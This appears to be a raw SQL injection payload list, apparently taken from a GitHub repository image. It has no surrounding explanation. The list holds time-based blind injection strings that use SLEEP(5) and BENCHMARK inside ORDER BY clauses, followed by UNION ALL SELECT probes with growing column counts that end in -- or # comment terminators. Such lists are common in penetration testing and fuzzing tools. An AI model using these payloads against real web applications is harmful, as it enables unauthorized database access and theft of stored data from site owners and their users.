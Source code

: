 ```
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1,2,3,4,5,6,7,8
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 1#
 UNION ALL SELECT 1,2#
 UNION ALL SELECT 1,2,3#
 UNION ALL SELECT 1,2,3,4#
 UNION ALL SELECT 1,2,3,4,5#
 UNION ALL SELECT 1,2,3,4,5,6#
 UNION ALL SELECT 1,2,3,4,5,6,7#
 UNION ALL SELECT 1,2,3,4,5,6,7,8#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
```